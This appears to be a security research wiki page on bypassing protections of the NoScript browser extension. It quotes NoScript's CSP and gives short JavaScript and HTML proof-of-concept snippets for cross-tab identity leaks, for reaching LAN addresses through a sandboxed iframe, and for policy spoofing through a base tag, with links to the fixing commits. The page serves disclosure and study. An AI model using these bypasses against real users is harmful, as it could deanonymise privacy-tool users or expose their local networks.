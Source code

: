 ```yaml
---
title: NoScript
---
```


[NoScript](https://noscript.net/) is a security browser extension installed by default on the Tor Browser that reduces the attack surface of visited websites such as by per site disabling JavaScript and blocking requests to the local area network.
It also has cross-site protections such as checking the URL for reflected XSS and asking before opening cross-site popups to avoid timing attacks and other leaks via the opener (Firefox only).

Disabling JS works by setting the following [CSP](https://developer.mozilla.org/en-US/docs/Web/HTTP/CSP):

```
noscript-marker; script-src 'none'; object-src 'none'; media-src 'none'; font-src 'none'; script-src-elem 'none'; script-src-attr 'none'; worker-src 'none'
```

So, in order to bypass it you need to find somewhere the CSP is not enforced like [this](https://issues.chromium.org/issues/40058593) or a PDF.

# Cross-tab Identity Leak Protection

Due to a flaw in cutting tab ties it did not think tabs where related when there was still a window reference.

```js
async function bypassFirefox(url) {
  let win = open('about:blank');
  await new Promise((resolve) => setTimeout(resolve, 100));
  win.location.reload();
  await new Promise((resolve) => setTimeout(resolve, 100));
  win.location = url;
  return win;
}
```

And later… [commit](https://github.com/hackademix/noscript/commit/c22eafc35bfcc379e9323cae67c924dfa1830684)

```js
let w = open();
w.eval('console.log("some attack")');
location = target;
```

And later… (Requires two user interactions)

```js
w1 = open();
w2 = w1.open();
w1.close();
w2.location = target;
```

Like [COOP](https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/Cross-Origin-Opener-Policy) this does not affect timing attacks on the first navigation.

# LAN Protection

[Sandboxed content](https://developer.mozilla.org/en-US/docs/Web/HTML/Element/iframe#attr-sandbox) uses the origin of ‘null’ which bypassed the protection.

```js
let f = document.createElement('iframe');
f.srcdoc = '<img src="http://192.168.1.1/foo">';
f.sandbox = 'allow-scripts';
document.body.appendChild(f);
```

This was also expanded to [top-level documents](https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/Content-Security-Policy/sandbox).

# Policy spoofing

document.baseURI was used to determine the policy for about: and javascript: URLs this could be set to any origin using the html base tag. [commit](https://github.com/hackademix/noscript/commit/ee66b823210933ba80dd38acf122b4bab6bd7be1)

```html
<base href="https://www.example.com/" />
```
